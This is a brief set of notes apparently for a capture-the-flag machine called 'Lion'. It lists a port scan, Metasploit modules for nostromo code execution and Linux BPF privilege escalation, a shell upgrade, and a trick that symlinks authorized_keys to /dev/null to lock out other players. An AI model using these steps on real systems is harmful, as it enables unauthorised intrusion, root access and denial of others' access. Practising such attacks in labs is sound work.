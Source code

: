 Lion

- nmap scan for flag on random port
`msfconsole` `use exploit/multi/http/nostromo_code_exec` port 8080
`use post/multi/manage/shell_to_meterpreter`

- To prevent others from following tutorial to ssh-keygen, `mkdir .ssh`, `ln -s /dev/null .ssh/authorized_keys`

`background`
`use exploit/linux/local/bpf_sign_extension_priv_esc`

`python3 -c 'import pty; pty.spawn("/bin/bash")'` to get full shell
